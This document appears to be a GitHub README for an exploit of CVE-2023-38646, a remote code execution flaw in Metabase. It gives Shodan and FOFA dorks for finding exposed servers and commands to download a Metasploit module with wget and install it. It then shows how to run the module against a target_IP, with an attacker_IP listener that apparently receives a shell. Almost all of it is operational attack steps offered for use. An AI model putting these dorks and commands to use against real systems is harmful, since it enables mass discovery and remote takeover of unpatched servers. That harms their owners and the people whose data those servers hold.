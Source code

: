 # CVE-2023-38646
![](https://img.shields.io/static/v1?label=Product&message=Metabase&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Open%20Source%20before%200.46.6.1%20and%20Enterprise%20before%201.46.6.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
product:"Metabase"
```
- FOFA dork:
```
app="Metabase"
```
  
## Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Metabase/metabase_setup_token_rce.rb
```
```
cp metabase_setup_token_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```

## Usage
```
msfdb reinit; msfconsole -q
```
```
msf6 > use exploit/linux/http/metabase_setup_token_rce.rb
```
```
msf6 exploit(linux/http/metabase_setup_token_rce.rb) > set rhosts target_IP
msf6 exploit(linux/http/metabase_setup_token_rce.rb) > set lhost attacker_IP
msf6 exploit(linux/http/metabase_setup_token_rce.rb) > run
```
